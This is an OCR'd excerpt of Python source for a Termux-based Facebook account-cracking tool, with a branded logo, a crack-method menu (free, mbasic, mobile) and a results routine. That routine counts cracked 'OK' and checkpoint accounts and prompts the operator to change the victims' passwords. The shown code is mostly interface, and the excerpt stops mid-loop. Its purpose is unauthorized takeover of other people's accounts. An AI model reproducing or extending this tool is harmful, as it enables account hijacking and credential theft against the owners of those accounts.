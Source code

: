 def jalan(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
     
def mentod():
    print('%s══════════════════════════════════════════\n %sMETHOD MENU%s'%(N,BM,N))
    print(' %s[%s1%s] Method 1 free (%sRecommended%s)'%(N,H,N,H,N))
    print(' [%s2%s] Method 2 mbasic (%sRecommended%s)'%(H,N,H,N))
    print(' [%s3%s] Method 3 mobile (%sRecommended%s)'%(H,N,H,N))
#-------- LOADING ANIMASI ------------
def loading():
    animation = ["[\x1b[1;91m■\x1b[0m□□□□□□□□□]","[\x1b[1;92m■■\x1b[0m□□□□□□□□]", "[\x1b[1;93m■■■\x1b[0m□□□□□□□]", "[\x1b[1;94m■■■■\x1b[0m□□□□□□]", "[\x1b[1;95m■■■■■\x1b[0m□□□□□]", "[\x1b[1;96m■■■■■■\x1b[0m□□□□]", "[\x1b[1;97m■■■■■■■\x1b[0m□□□]", "[\x1b[1;98m■■■■■■■■\x1b[0m□□]", "[\x1b[1;99m■■■■■■■■■\x1b[0m□]", "[\x1b[1;910m■■■■■■■■■■\x1b[0m]"]
    for i in range(50):
        time.sleep(0.1)
        sys.stdout.write(f"\r {N}[{H}•{N}] {H}Loading...{N} " + animation[i % len(animation)] +"\x1b[0m ")
        sys.stdout.flush()
    print("")
# LOGO
def logo():
    print("""\n
\033[1;92m    _          _
\033[1;92m     \\        /
\033[1;92m    __\\______/__
\033[1;92m    | [\033[1;31;1m©\033[1;92m]  [\033[1;31;1m©\033[1;92m] |​
 \033[1;92m   |  [\33[1;33m====\033[1;92m]  | [+] HACKERS BANGLADESH [+]
\033[1;92m╔══o00════════00o═════════════════════════╗
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mAuthor    :  \033[1;92m James404_           \033[1;31;1m █
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mWhatsapp  :  \033[1;92m Black Gold          \033[1;31;1m █
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mWhatsapp  : \033[1;92m  Black404_           \033[1;31;1m █
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mGorup Fb  :  \033[1;92m Termux Command World\033[1;31;1m █
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mVersion   :  \033[1;92m 0.3                  \033[1;31;1m█
\033[1;92m╚═════════════════════════════════════════╝""")
#CRACK SELESAI
def hasil(ok,cp):
    if len(ok) != 0 or len(cp) != 0:
        print(f'\n%s══════════════════════════════════════════\n [%s✓%s] %sCracking By James Usercrack...\n%s══════════════════════════════════════════'%(N,H,N,H,N))
        print(f' %s[%s+%s] Number of Accounts OK : %s%s%s'%(H,H,H,H,str(len(ok)),H))
        print(f' [%s+%s] Number of Accounts CP : %s%s%s'%(H,H,H,str(len(cp)),H))
        cek_cp = input(f"{H}══════════════════════════════════════════\n [{H}+{H}] Show CP detector options [{H}Y{N}/{M}t{N}]: ")
        if cek_cp =="":
            print(f"\n [{M}!{N}] Don't be empty");hasil(ok,cp)
        elif cek_cp in["Y","y"]:
            jalan(f" {N}[{M}!{N}] Play airplanemode first");time.sleep(5)
            ww=input(f"\n {N}[{K}?{N}] Change password when {BM}TAP YES{N} [{H}Y{N}/{M}t{N}]: ")
            if ww in ("Y","y","ya"):
                ubahP.append("y")
                print(f" {N}[{H}•{N}] Password example : {H}james123{N}")
                pwBar=input(f" {N}[{K}?{N}] Enter new password : {H}")
                #print("\n")
                if len(pwBar) <= 5:
                    print('\n %s[%s×%s] Password minimum 6 characters'%(N,M,N))
                else:
                    pwBaru.append(pwBar)
            for memek in cp:
                kontol = memek.replace('\n', '')